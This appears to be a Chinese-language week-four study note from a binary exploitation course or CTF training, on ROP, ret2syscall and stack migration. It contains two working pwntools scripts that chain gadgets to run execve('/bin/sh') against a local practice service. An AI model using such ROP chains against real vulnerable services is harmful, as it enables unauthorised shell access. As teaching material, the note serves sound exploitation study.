

# Week4

## ROP

- 控制寄存器做 syscall
- 使用原程序中的 function
- 使用 libc 中的 gadget 或 function

`ROPgadget --binary $binary`

### ret2syscall

程序里如果没有 `/bin/sh` 可以先用 read 读一个然后再用 execve

```python
##coding=utf8
from pwn import *

# r = process('./p1')
r = remote('127.0.0.1', 8888)

offset = 22
pop_eax_edx_ebx_ret = 0x08053d14
pop_ecx_ret = 0x080595b3
buf = 0x080ee000 - 100
syscall = 0x0806ef00

rop = [
    pop_eax_edx_ebx_ret, 3, 100, 0, 
    pop_ecx_ret, buf,
    syscall,

    pop_eax_edx_ebx_ret, 0x0b, 0, buf,
    pop_ecx_ret, 0,
    syscall, 0xdeadbeef
]

r.sendline('a'*offset + ''.join(map(p32, rop)))
sleep(1)
r.send('/bin/sh\x00')

r.interactive()
```

### Stack Migration

`leave = mov esp, ebp ; pop ebp`

 函数入口处有 `push ebp ; mov ebp, esp`

- 使用 leave 把栈迁移到已知位置
- 确定 ROP chain 的位置，可以直接附加其他 data
- 可以无限次 ROP
- migrate 后的空间足够长

```python
##coding=utf8
from pwn import *

r = remote('127.0.0.1', 8888)

offset = 22
buf = 0x080ed080
pop_eax_ret = 0x080b90f6
pop_ebx_ret = 0x080481c9
pop_ecx_ret = 0x080595b3
pop_edx_ret = 0x0806e7da
syscall = 0x0806ef00
# leave == mov esp, ebp ; pop ebp
leave_ret = 0x08048ad8
pop_ebp_ret = 0x08048363
main = 0x08048b94
gets_gadget1 = 0x8048ba1


migration = [
    pop_ebp_ret,
    buf - 4,
    pop_eax_ret,
    buf,
    gets_gadget1,
]

rop = [
    pop_eax_ret,
    11,
    pop_ebx_ret,
    buf + 9*4,
    pop_ecx_ret,
    0,
    pop_edx_ret,
    0,
    syscall,
]

r.sendline('a'*offset + ''.join(map(p32, migration)))
sleep(1)
r.sendline(''.join(map(p32, rop)) + '/bin/sh\x00')
r.interactive()

```

使用 gets_gadget 读入后续的 ROP chain，先控制 ebp = buf - 4，经过 leave 后有 esp = buf - 4, ebp = [buf]，这样 stack 就迁移到了 buf 处，ret 会执行接下来的 ROP chain

```assembly
mov    DWORD PTR [esp],eax
call   804efe0 <_IO_gets>
mov    eax,0x0
leave
ret
```

### Stack Overflow 会破坏 esp 的情况

gcc 4.9？ 后的 function epilogue 跟之前不同



先记录 stack 位置，`lea ecx, [esp+0x4] ; push ecx`，在 leave 之后会恢复 esp。

这样的好处就是可以利用最后的 `lea esp, [ecx-0x4]` 做栈迁移。

Trick：

- 把 stack 往上拉，控制 ecx 的最低字节被 0 覆盖，也就是传入刚好在 ecx 之上的字符串，用末尾的 `\x00` 覆盖，这样 esp 就会减小，栈就会向上延伸，esp 在原有的 buffer 内

